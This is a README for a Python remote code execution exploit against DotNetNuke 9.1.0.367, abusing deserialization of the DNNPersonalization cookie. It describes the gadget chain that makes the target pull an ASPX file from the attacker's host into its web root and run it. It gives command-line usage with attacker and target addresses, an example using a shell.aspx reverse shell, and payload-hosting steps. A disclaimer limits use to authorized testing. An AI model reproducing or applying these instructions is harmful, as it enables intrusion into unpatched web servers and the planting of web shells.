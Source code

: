 # DotNetNuke RCE Exploit

## Overview
This tool exploits a remote code execution vulnerability in DotNetNuke (DNN) by leveraging a deserialization vulnerability in the DNNPersonalization cookie. The exploit allows for arbitrary file retrieval and execution of ASPX payloads on vulnerable DotNetNuke installations.

## Author
- **Author**: Aleksa Zatezalo
- **Date**: April 2025

## Technical Details

### Vulnerability
This exploit targets a deserialization vulnerability in DotNetNuke's cookie handling mechanism. It works by:

1. Creating a malicious serialized XML payload in the DNNPersonalization cookie
2. Using `System.Data.Services.Internal.ExpandedWrapper` to wrap `FileSystemUtils` with `ObjectDataProvider`
3. Invoking the `PullFile` method to download and save a malicious ASPX payload to the web root
4. Executing the payload by accessing it through the web server

### Components

The exploit consists of two main functions:

- `createObject()`: Crafts the serialized XML payload with the necessary .NET types to achieve deserialization
- `delivery()`: Delivers the exploit by setting the malicious cookie and triggering the payload execution

## Requirements

- Python 3.x
- `requests` library
- A web server hosting your ASPX payload
- A vulnerable DotNetNuke installation (tested with version 9.1.0.367)

## Usage

```bash
python dnn_rce.py --ip TARGET_IP --lhost ATTACKER_IP --lport LISTENER_PORT --payload PAYLOAD_FILE
```

### Arguments

- `--ip`: The target IP address/hostname with DotNetNuke installation
- `--lhost`: Your IP address where the payload is hosted
- `--lport`: Your port for receiving connections (if using a reverse shell payload)
- `--payload`: Name of the ASPX payload file to be used

### Example

```bash
python dnn_rce.py --ip 192.168.1.10 --lhost 192.168.1.5 --lport 4444 --payload shell.aspx
```

## Payload Preparation

1. Create your ASPX payload (e.g., web shell or reverse shell)
2. Host it on a web server accessible from the target
3. Ensure the payload is configured with the correct callback address if using a reverse shell

## Operational Flow

1. The script creates a serialized payload using the createObject() function
2. This payload exploits DotNetNuke's cookie deserialization mechanism
3. The payload instructs the server to download your ASPX file from your host
4. The file is saved to the DotNetNuke web root
5. The script triggers the payload by accessing it on the target server

## Limitations

- Requires the target server to have outbound connectivity to your host
- Target must be running a vulnerable version of DotNetNuke
- Web server process must have write permissions to the web root

## Defense Evasion Notes

- The script supports proxying through Burp Suite or other local proxies for traffic inspection
- Default configuration routes through 127.0.0.1:8080

## Legal Disclaimer

This tool is provided for educational and authorized penetration testing purposes only. Usage of this tool for attacking targets without prior mutual consent is illegal. The author is not responsible for any misuse or damage caused by this tool.